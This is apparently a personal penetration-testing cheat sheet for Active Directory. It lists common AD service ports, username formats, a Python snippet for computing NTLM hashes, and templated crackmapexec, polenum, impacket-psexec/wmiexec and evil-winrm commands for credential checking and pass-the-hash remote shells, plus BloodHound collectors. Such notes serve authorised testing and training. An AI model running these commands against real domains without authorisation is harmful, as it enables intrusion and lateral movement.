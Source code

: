 # Info
## Common services used in AD
|Service|port|
|-|-|
|DNS|53|
|Kerberos|88|
|RPC|135| 
|NetBios|137-138-139|
|LDAP-tls|389-636|
|SMB|445|
|Global catalog LDAP-tls|3268-3269|

## Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

## Calculate NTLM hash
```Python
import hashlib,binascii
hash = hashlib.new('md4', "password".encode('utf-16le')).digest()
print binascii.hexlify(hash)
```

## Password policy
`polenum '<USER>':'<PASS>' -d <IP/DOMAIN>`
`crackmapexec smb IP -u '<USER>' -p '<PASS>' --pass-pol`

## Expoitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD